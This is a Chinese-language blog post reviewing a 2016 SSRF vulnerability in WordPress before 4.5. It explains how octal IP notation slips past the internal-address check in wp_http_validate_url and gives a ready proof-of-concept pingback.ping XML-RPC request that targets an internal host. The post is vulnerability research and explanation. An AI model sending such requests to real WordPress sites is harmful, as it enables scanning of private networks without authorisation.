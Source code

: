 ```yaml
---
title: wordpress SSRF <4.5
date: 2016-08-19 15:05:19
tags: 
 - cms
categories: codereview
---
```


### 概述

前几天，wordpress爆出一个SSRF的漏洞，跟进一下，查阅了一下，网上并没有详细的利用方式。以前也没怎么接触过wordpress，看了一下受影响的代码，记录一下过程。
<!-- more -->

### ip地址的几种表示方式

ip地址域名有多种表示方式，浏览器都能识别出来。

###### 常见的ip地址域名表示方法

- 点分十进制表示法，例如192.168.1.2
- 二进制表示法例如11000000101010000000000100000010，表示192.168.1.2

###### 非常见ip地址域名表示方法

- 整数型：将上述的二进制直接转换成整数3232235778，浏览器通过访问http://3232235778 解析为192.168.1.2，除此之外还可以通过公式`192*256^3+168*256^2+1*256+2=3232235778`换算
- 八进制型：将IP 192.168.1.2换成8进制0300.0250.01.02，在前面加上0表示8进制
- 十六进制型：将IP 192.168.1.2换成16进制0xc0.0xA8.1.2，在前面加上0x表示16进制
- 混合型：即以上的几种方式的结合，0300.0xA8.1.0x02

下面就是通过八进制绕过检测。

### 代码详情

漏洞成因处508 `wp_http_validate_url` 函数
```php
......
if ( ! $same_host ) {
		$host = trim( $parsed_url['host'], '.' );
		if ( preg_match( '#^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$#', $host ) ) {
			$ip = $host;
		} else {
			$ip = gethostbyname( $host );
			if ( $ip === $host ) // Error condition for gethostbyname()
				$ip = false;
		}
		if ( $ip ) {
			$parts = array_map( 'intval', explode( '.', $ip ) );
			if ( 127 === $parts[0] || 10 === $parts[0] || 0 === $parts[0]
				|| ( 172 === $parts[0] && 16 <= $parts[1] && 31 >= $parts[1] )
				|| ( 192 === $parts[0] && 168 === $parts[1] )
			) {
        ......
```
这里的代码通过正则表达式`^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$`判断ip是否合法，如果不合法则通过网络获取ip的值。
下面的if判断则是用来防止给的url为内网ip，但是上述的正则表达式可以通过8进制绕过内网限制。
```php
if ( empty( $parsed_url['port'] ) )
		return $url;

	$port = $parsed_url['port'];
	if ( 80 === $port || 443 === $port || 8080 === $port )
		return $url;
```
再接下来可以看到程序又对端口做了限制，只能扫描80,443,8080端口。
综上所述，通过8进制绕过ip判断，可以扫描内网的80,443,8080
找一下调用的位置,可以找到class-wp-xmlrpc-server.php通过wp_safe_remote_get调用了get函数，get函数使用了wp_http_validate_url，从而造成ssrf
### 利用
利用的方式为通过xmlrpc.php中pingback.ping功能来调用这个函数。
POC
```
POST /cms/wordpress/wp442/xmlrpc.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 321

<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://012.10.10.111:8080/testvul</string></value></param><param><value><string>http://localhost/cms/wordpress/wp442/2016/08/19/hello-world/</string></value></param>
</params>
</methodCall>
```
这里设置10.10.10.111为受害者
![image](http://blog.0kami.cn/img/wordpress_ssrf_4_4_2/wordpress-ssrf.png)
### 总结
在测试中发现只能对10.x.x.x的内网ip进行利用，因为正则的原因至多只能有3位数字，一位需要为0来表示8进制，所以利用只有10,并且只能扫描80,443,8080端口。由于利用中不回显，也很难确定是否成功利用。所以这个洞可能危害比较小（太菜了，想不到其他的利用方式，有其他的利用方式记得分享啊！！！）
还有一种利用就是开启xmlrpc的wordpress站可以被通过pingback.ping方法来DDOS，这个以前就有人提出来了。
## 参考
http://xlab.baidu.com/wordpress/
https://virusdefender.net/index.php/archives/733/


